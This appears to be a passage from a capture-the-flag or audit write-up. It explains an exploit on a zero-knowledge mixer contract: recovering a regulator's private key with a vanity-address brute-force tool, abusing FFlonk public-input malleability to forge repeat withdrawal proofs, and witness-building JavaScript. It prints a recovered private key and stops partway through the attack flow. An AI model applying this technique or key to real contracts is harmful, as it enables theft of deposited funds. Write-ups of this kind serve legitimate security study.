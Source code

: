 ## The Exploit

Let's break down the attack step by step.

### Exploit Setup

The exploit requires:
1. Recovering the private key for the OFAC regulator address
2. Modifying the snarkjs FFlonk prover to exploit public input malleability
3. Generating multiple valid proofs for the same deposit

First, we try to recover the regulator's private key using an open-source tool (https://github.com/rebryk/profanity-brute-force). This works and gives us the private key:
```
Private Key: 0x3e26b176b011d9a958e00744cf25bf77163465195861727d2f88ceb02d8f1578
```

### Attack Flow

To implement the exploit, we first need to generate witnesses and commitments for our deposits. This is done using the following helper functions:

```javascript
async function make_witness(recipient, relayer, fee, refund, nullifier, secret, leaves, output) {
  // Get nullifier hash
  const nullifierHash = await pedersenHash(leBigintToBuffer(nullifier, 31));

  const tree = await mimicMerkleTree(leaves);

  const commitment = await pedersenHash(
    Buffer.concat([
      leBigintToBuffer(nullifier, 31),
      leBigintToBuffer(secret, 31),
    ])
  );
  const merkleProof = tree.proof(commitment);

  // Format witness input to match circuit expectations
  const input = {
    // Public inputs
    root: merkleProof.pathRoot,
    nullifierHash: nullifierHash,
    recipient: recipient,
    relayer: relayer,
    fee: fee,
    refund: refund,

    // Private inputs
    nullifier: nullifier,
    secret: secret,
    pathElements: merkleProof.pathElements.map((x) => x.toString()),
    pathIndices: merkleProof.pathIndices,
  };

  await snarkjs.wtns.calculate(
    input,
    "withdraw.wasm",
    output,
  );
}
```
